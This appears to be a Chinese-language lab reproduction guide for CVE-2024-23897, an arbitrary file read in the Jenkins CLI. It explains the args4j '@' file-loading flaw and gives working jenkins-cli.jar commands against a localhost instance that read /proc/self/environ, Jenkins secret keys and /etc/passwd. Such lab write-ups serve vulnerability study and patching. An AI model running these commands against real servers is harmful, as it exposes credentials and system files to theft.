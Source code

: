 # Jenkins CLI 接口任意文件读取漏洞（CVE-2024-23897）

Jenkins是一个开源的自动化服务器。

Jenkins使用[args4j](https://github.com/kohsuke/args4j)来解析命令行输入，并支持通过HTTP、Websocket等协议远程传入命令行参数。args4j中用户可以通过`@`字符来加载任意文件，这导致攻击者可以通过该特性来读取服务器上的任意文件。

该漏洞影响Jenkins 2.441及以前的版本。

参考链接：

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 漏洞环境

## 漏洞复现

利用该漏洞可以直接使用官方提供的命令行客户端，在`http://localhost:9080/jnlpJars/jenkins-cli.jar`下载。

使用该工具读取目标服务器的`/proc/self/environ`文件，可以找到Jenkins的基础目录，`JENKINS_HOME=/var/jenkins_home`：

```
java -jar jenkins-cli.jar -s http://localhost:9080/ -http help 1 "@/proc/self/environ"
```

![](1.png)

然后，可在该目录下读取敏感文件，如`secrets.key` or `master.key`（匿名情况下，只能通过命令行的报错读取文件的第一行）：

```
java -jar jenkins-cli.jar -s http://localhost:9080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![](2.png)

```
java -jar jenkins-cli.jar -s http://localhost:9080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![](3.png)

因为开启了“匿名用户可读”选项，你也可以直接使用`connect-node`命令读取完整文件内容：

```
java -jar jenkins-cli.jar -s http://localhost:9080/ -http connect-node "@/etc/passwd"
```

![](4.png)
